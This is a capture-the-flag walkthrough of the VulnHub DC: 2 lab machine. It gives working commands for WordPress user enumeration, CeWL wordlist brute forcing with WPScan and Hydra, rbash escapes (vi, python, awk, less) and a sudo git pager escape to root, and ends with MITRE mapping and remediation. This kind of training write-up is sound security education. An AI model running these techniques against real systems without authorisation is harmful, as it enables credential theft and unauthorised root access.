





# DC: 2 — Writeup

> DC-2 takes the series up a notch. Forget a single CVE: this one chains WordPress enumeration, a CeWL-generated wordlist, brute force, a restricted shell escape, and a sudo GTFOBin. It's a multi-step puzzle that mirrors how real initial access + lateral movement looks in the wild. Buckle up, dude.

---

## Target Information

| Field | Details |
|-------|---------|
| **Level** | Beginner |
| **Target VM** | DC: 2 (VirtualBox/VMware, host-only) |
| **Attacker VM** | Kali Linux 2024.x |
| **Target IP** | 192.168.1.101 (host-only adapter) |
| **VulnHub URL** | https://www.vulnhub.com/entry/dc-2,311/ |
| **Techniques** | WordPress user enumeration (WPScan), CeWL wordlist generation, SSH brute force (Hydra), rbash escape via vi, sudo GTFOBin (git) |
| **CVEs** | No specific CVE for initial access; technique-based attack chain |
| **CISA KEV** | N/A for this chain; techniques align with common ransomware initial access TTPs |
| **APT Groups** | WordPress credential attacks are common across ransomware affiliates (e.g., REvil, Conti) and initial access brokers (IABs) |

---

## Attack Summary

```
[Attacker]
    |
    +--[ nmap -p- ]--> port 80 (WordPress), port 7744 (SSH)
    |
    +--[ WPScan --enumerate u ]--> users: admin, jerry, tom
    |
    +--[ CeWL ]--> custom wordlist from site content
    |
    +--[ WPScan brute force ]--> tom:parturient, jerry:adipiscing
    |
    +--[ SSH tom@:7744 ]--> rbash (restricted shell)
    |
    +--[ vi :set shell=/bin/bash :shell ]--> full bash shell
    |
    +--[ sudo git help add ]--> pager opens
    |
    +--[ !/bin/bash ]--> root shell
    |
    +--[ cat /root/final-flag.txt ]--> FLAG CAPTURED
```

---

## Methodology

1. Network discovery; identify non-standard SSH port 7744
2. WordPress user enumeration with WPScan
3. Generate targeted wordlist with CeWL; brute force credentials
4. SSH as `tom` into restricted shell (rbash)
5. Escape rbash via `vi` editor trick
6. Escalate to root via `sudo git` GTFOBin

---

## Step 1: Network Discovery

**Context:** Full port scan is mandatory here because SSH is on port 7744, not 22. Missing it means missing the only path to a shell. Thorough scanning is not optional, fr fr.

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -p- -A 192.168.1.101
```

**Expected output:**

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache 2.4.10 (Debian) - WordPress
7744/tcp open  ssh     OpenSSH 6.7p1 Debian
```

The WordPress site redirects to `http://dc-2`. Add it to your hosts file:

```bash
echo "192.168.1.101 dc-2" | sudo tee -a /etc/hosts
```

**Real-world note:** Security through obscurity via non-standard ports is a speed bump, not a wall. Any attacker running `nmap -p-` or masscan trivially finds it. Defenders should not rely on port obfuscation as a security control.

**MITRE TTP:** T1046 - Network Service Discovery; T1595.002 - Active Scanning: Vulnerability Scanning



---

## Step 2: WordPress User Enumeration

**Context:** WPScan is the go-to tool for WordPress recon. User enumeration is often enabled by default in WordPress installations and exposes valid usernames that can be targeted for brute force. The site also has a "Flag" page hinting to use CeWL. Legit clue hiding in plain sight, bruh.

```bash
wpscan --url http://dc-2 --enumerate p --enumerate t --enumerate u
```

**Expected output (relevant section):**

```
[+] admin
[+] jerry
[+] tom
```

**Alternative:** Use `curl` to hit the WordPress REST API for user enumeration:

```bash
curl http://dc-2/wp-json/wp/v2/users
```

**Real-world note:** WordPress user enumeration via `/?author=1` and the REST API is a documented attack vector. In real engagements, enumerated usernames feed directly into credential stuffing and brute force campaigns against admin portals, SSH, and VPNs.

**MITRE TTP:** T1589.001 - Gather Victim Identity Information: Credentials; T1590 - Gather Victim Network Information



---

## Step 3: Build Targeted Wordlist and Brute Force

**Context:** CeWL scrapes a website and generates a wordlist from its content. Because site authors often reuse words from their own content as passwords, targeted wordlists significantly outperform generic lists for this type of target. Noice technique, legit effective.

```bash
# Generate targeted wordlist
cewl http://dc-2/ > passwords.txt

# Save enumerated usernames
echo -e "admin\njerry\ntom" > users.txt

# Brute force via WPScan
wpscan --url http://dc-2 -U users.txt -P passwords.txt
```

**Expected output:**

```
[SUCCESS] Login : tom / Password : parturient
[SUCCESS] Login : jerry / Password : adipiscing
```

**Alternative:** Use Hydra against the WordPress login form directly:

```bash
hydra -L users.txt -P passwords.txt dc-2 http-post-form \
  "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:ERROR"
```

**Real-world note:** CeWL-generated wordlists are part of real-world social engineering and targeted password attacks documented in threat intelligence reports. Attackers build contextual wordlists from LinkedIn, company websites, and job postings to target corporate SSO and VPN portals.

**MITRE TTP:** T1110.001 - Brute Force: Password Guessing; T1589.001 - Gather Victim Identity Information: Credentials



---

## Step 4: SSH as `tom` into Restricted Shell

**Context:** WordPress credentials do not grant a useful shell. SSH on port 7744 is the path forward. `tom:parturient` works. But the shell is rbash (restricted bash): limited PATH, no `cat`, no directory changes outside home. Annoying but easily bypassed. Dude, rbash is not real security.

```bash
ssh tom@192.168.1.101 -p 7744
# Password: parturient
```

**Expected:** Prompt showing restricted shell. Try common commands; most will fail with `rbash: command not found` or `rbash: restricted`.

**Real-world note:** Restricted shells like rbash are sometimes configured on jump hosts or low-privilege service accounts. They are almost universally bypassable and should not be treated as a security boundary. Proper account isolation requires OS-level controls, not a shell flag.

**MITRE TTP:** T1078 - Valid Accounts; T1021.004 - Remote Services: SSH

---

## Step 5: Escape rbash via `vi`

**Context:** `vi` is available in the restricted shell. The `vi` editor can drop to a system shell via its `:shell` command, bypassing rbash entirely. This is one of dozens of rbash escape techniques documented on GTFOBins. GG rbash, rekt.

```bash
vi
```

Inside vi:

```
:set shell=/bin/bash
:shell
```

Fix the PATH to restore standard tools:

```bash
export PATH=/bin:/usr/bin:$PATH
export SHELL=/bin/bash
```

**Alternative rbash escapes:**

```bash
# Via Python
python -c 'import os; os.system("/bin/bash")'

# Via awk
awk 'BEGIN {system("/bin/bash")}'

# Via less
less /etc/passwd
# then type: !/bin/bash
```

**Real-world note:** GTFOBins documents dozens of ways to escape restricted shells using commonly available tools. In real incidents, threat actors leverage these techniques to break out of restricted environments on compromised Linux hosts, IoT devices, and network equipment.

**MITRE TTP:** T1059.004 - Command and Scripting Interpreter: Unix Shell

---

## Step 6: Privilege Escalation via `sudo git`

**Context:** Check sudo permissions. `tom` can run `/usr/bin/git` as root with no password. `git help` opens a pager (usually `less` or `man`). Any pager spawned as root can drop to a shell via `!`. Classic GTFOBin, dude. Nailed it.

```bash
sudo -l
```

**Expected output:**

```
User tom may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

```bash
sudo git help add
```

When the pager opens, type:

```
!/bin/bash
```

Press Enter. Root shell spawns.

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

cat /root/final-flag.txt
```

**Alternative:** Trigger the pager via `sudo git log`:

```bash
sudo git -p log --all
!/bin/bash
```

**Real-world note:** Unrestricted sudo access to interactive tools like `git`, `vim`, `less`, `man`, `nano`, and `ftp` is a well-known privilege escalation path. In real pentest engagements, `sudo -l` is one of the first commands run after obtaining a shell; sudoers misconfigurations appear in roughly 30-40% of Linux internal pentest findings.

**MITRE TTP:** T1548.003 - Abuse Elevation Control Mechanism: Sudo and Sudo Caching




---

## Captured Flags and Credentials

| Item | Value / Location |
|------|-----------------|
| WordPress creds | tom:parturient |
| WordPress creds | jerry:adipiscing |
| Flag 1 | Visible on WordPress "Flag" page |
| Flag 2 | `/home/tom/flag2.txt` (after SSH) |
| Flag 3 | `/home/jerry/flag3.txt` (requires jerry access) |
| Final Flag | `/root/final-flag.txt` |

---

## Lessons Learned with Real-World Relevance

1. **Non-standard ports are trivially found.** SSH on 7744 delays nothing and misleads nobody running a full port scan. Do not rely on port obfuscation as a security measure.

2. **CeWL is a legitimate threat tool.** Targeted wordlists built from site content outperform rockyou.txt against real users who reuse site-related words as passwords. This technique is documented in real APT playbooks.

3. **rbash is security theater.** It delays an attacker by minutes. Any system where rbash is a security boundary is a misconfigured system. Proper access control means not having interactive login access in the first place.

4. **`sudo git` NOPASSWD is equivalent to root access.** Any interactive tool that can spawn a shell or pager, when granted unrestricted sudo, is a direct path to root. The sudoers audit is not optional.

5. **GTFOBins is your best friend post-exploitation.** Always check https://gtfobins.github.io/ after `sudo -l`. It covers hundreds of binaries that can be leveraged for privilege escalation when granted sudo.

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Notes |
|--------|-----------|-----|-------|
| Reconnaissance | Active Scanning | T1595.002 | nmap full port scan |
| Discovery | Network Service Discovery | T1046 | Non-standard SSH port discovery |
| Credential Access | Brute Force: Password Guessing | T1110.001 | WPScan + CeWL wordlist |
| Initial Access | Valid Accounts | T1078 | SSH with brute-forced creds |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | rbash escape via vi |
| Lateral Movement | Remote Services: SSH | T1021.004 | tom@:7744 |
| Privilege Escalation | Abuse Elevation Control Mechanism: Sudo | T1548.003 | sudo git GTFOBin |
| Collection | Data from Local System | T1005 | Reading flag files |

---

## Remediation

### Vulnerability: WordPress User Enumeration + Weak Passwords

**NIST CSF 2.0 Functions:** Identify (ID.AM-2), Protect (PR.AC-1), Detect (DE.CM-7)

**NIST SP 800-53 Controls:**
- AC-2: Account Management (disable or rename default `admin` account)
- IA-5: Authenticator Management (enforce strong password policy; implement 2FA)
- SI-10: Information Input Validation (disable WordPress REST API user enumeration when not needed)

**CISA KEV:** N/A for this specific chain.

**C2M2:** MIL1 - Implement password policies; MIL2 - Deploy multi-factor authentication.

**D3FEND:** D3-UAP (User Account Permissions) to limit account exposure; D3-PAN (Patch and Update Notification) for plugin/theme updates.

---

### Vulnerability: rbash Escape + sudo git NOPASSWD

**NIST SP 800-53 Controls:**
- AC-6: Least Privilege (remove NOPASSWD git sudo; enforce minimal shell restrictions)
- CM-6: Configuration Settings (audit sudoers; enforce baseline)
- AC-17: Remote Access (restrict SSH access to necessary users only)

**Remediation:**

```bash
# Remove from /etc/sudoers:
# tom ALL=(root) NOPASSWD: /usr/bin/git

# Properly restrict SSH (key-only, disable password auth):
# PasswordAuthentication no  in /etc/ssh/sshd_config
```

**D3FEND:** D3-SEA (Sudo Execution Analysis); D3-EAL (Executable Allowlisting) to restrict what privileged users can execute.

---

## Final Thoughts

DC-2 is where the series starts demanding multi-step thinking. Each phase builds on the last: recon leads to enumeration, enumeration feeds brute force, brute force gets initial access, a shell restriction gets bypassed, and a single sudo misconfiguration hands you root. That chain is not theoretical: it mirrors real lateral movement and privilege escalation patterns documented in CIRT reports from multiple sectors. Take the methodology, not just the flags.

Thanks guys!! (❍ᴥ❍ʋ)
